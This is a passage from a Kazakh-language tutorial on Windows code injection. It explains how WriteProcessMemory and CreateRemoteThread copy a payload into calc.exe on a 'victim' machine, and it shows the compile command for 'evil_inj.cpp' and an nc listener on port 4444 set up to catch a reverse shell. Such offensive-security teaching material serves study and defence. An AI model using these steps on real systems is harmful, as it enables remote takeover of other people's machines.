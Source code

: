 Содан кейін `WriteProcessMemory` процестер арасында деректерді көшіруге мүмкіндік береді, сондықтан пайдалы жүктемемізді `calc.exe` процесіне **(2)** көшіреміз **(2)**. Және `CreateRemoteThread` функциясы `CreateThread` функциясына ұқсас, бірақ бұл функцияда жаңа thread **(3)** бастау керек сыртқы процессті көрсетуге болады.    

Ал енді осы кодты құрастырайық:   

```bash
x86_64-w64-mingw32-gcc evil_inj.cpp -o evil2.exe -s 
-ffunction-sections -fdata-sections -Wno-write-strings 
-fno-exceptions -fmerge-all-constants -static-libstdc++ 
-static-libgcc
```

![compile code injection](./images/6/2021-09-19_00-36.png){width="75%"}

тыңдаушыны (listener) дайындайық:

```bash
nc -lvp 4444
```

және құрбан машинасында алдымен `calc.exe` процесін орындаймыз:    

![run victim`s process](./images/6/2021-09-19_00-40.png){width="75%"}

Біз `calc.exe` процесінің идентификаторы `1844` екенін көреміз.     
